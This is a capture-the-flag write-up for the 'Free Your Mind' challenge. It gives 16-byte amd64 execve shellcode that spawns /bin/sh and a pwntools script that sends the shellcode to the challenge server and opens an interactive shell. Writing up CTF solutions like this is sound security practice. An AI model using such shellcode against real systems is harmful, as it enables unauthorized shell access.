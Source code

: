 ### Free Your Mind (200 Points)

> Next up, hack the matrix again, but this time, insert your own code.
>
> [attachment]()

This challenge provide the "/bin/sh" in stack top and limit the max input length is 16. so I write the shellcode like this:

```asm
push 0
pop rsi
push 0
pop rdx
push 0x3b
pop rax
lea rdi,[rsp+8]
syscall
```

#### exploit script

```python
from pwn import *
context.arch = 'amd64'

payload = asm("push 0; pop rsi; push 0; pop rdx; push 0x3b; pop rax; lea rdi,[rsp+8]; syscall")
print len(payload) # 16

#p = process('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
p = remote('chal.ctf.b01lers.com',1007)
p.recvuntil('walk through it.\n')

# gdb.attach(p)
p.sendline(payload)

p.interactive()
```

